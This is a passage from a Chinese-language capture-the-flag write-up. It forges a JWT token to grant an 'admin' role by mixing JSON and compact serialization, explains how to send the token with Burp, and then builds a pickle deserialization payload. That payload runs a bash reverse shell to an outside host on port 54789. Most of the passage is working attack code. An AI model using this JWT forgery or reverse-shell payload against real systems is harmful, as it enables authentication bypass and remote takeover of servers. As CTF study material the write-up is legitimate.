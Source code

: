 ```python
import base64
from datetime import timedelta
from json import loads, dumps
from jwcrypto.common import base64url_decode, base64url_encode

def topic(topic):
    """ Use mix of JSON and compact format to insert forged claims including long expiration """
    [header, payload, signature] = topic.split('.')
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload['role'] = 'admin'
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
    return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'    

originaltoken = 'eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2OTk1MzgyNDQsImlhdCI6MTY5OTUzNDY0NCwianRpIjoiMFB1NllqWEFlRXMzZy1ZRFZ5bDNkUSIsIm5iZiI6MTY5OTUzNDY0NCwicm9sZSI6Imd1ZXN0IiwidXNlcm5hbWUiOiJib29naXBvcCJ9.K_GRKX1-2Em3LFLx5wD_VJ-lHrrU595Xwrniu_zxexgUDmy5DR9V9Qsq0lVMsEEwNoShA9-IsWiS58j3MxGldk3GUXWCEeXZ7HBlcPCB_wUlZ6TE7FIqZkeAbtH9EaptOEYTxzbiVsWsoLGjCm8Y9EazQkUQd_aQRhYHa6KgNmbmFeVQSeORwLAi1PVkjYT0wVtweG3KAegorhyBFpmK9v5nKvwFYP6l33LvkTLV3V1ryb-yfvCn08TLYKc17JNkRquBp_1pW_dH1P_qkxiO98806nBniPc76BjSwolLHPh7J9Wa53pBV2RSKbRjqmJ7JR3hr_RkgVmSOMUCeCT5sw'
topic = topic(originaltoken)
print(topic)
```

这里有个小坑，生成的payload要将空格url编码一下
 然后bp抓包，GET传参参数token
 ![在这里插入图片描述](../../CTF_%25E7%25AC%2594%25E8%25AE%25B0%25E8%25AE%25B0%25E5%25BE%2597%25E8%25BD%25AC%25E7%25A7%25BB/web/%25E9%25A2%2598%25E7%259B%25AEwp+%25E6%2598%25A5%25E7%25A7%258B%25E4%25BA%2591%25E5%25A2%2583%25E6%25B8%2597%25E9%2580%258Fwp/assets/6b6f6f74673c4c6d8ccba107ff83e7a8.png)
 因为我们代码审计时知道会将token赋值给session里
 所以我们用该session值去进行pickle反序列化
 （不确定是否改为admin可以去解密看看）
 ![在这里插入图片描述](assets/f579f5d418824e1cb1d8ed08be0d4190.png)
 接着就到pickle反序列化，由于没有任何过滤
 直接给payload，反弹shell

```python
import base64
opcode=b'''cos
system
(S"bash -c 'bash -i >& /dev/tcp/f57819674z.imdo.co/54789 0>&1'"
tR.
'''
print(base64.b64encode(opcode))
```
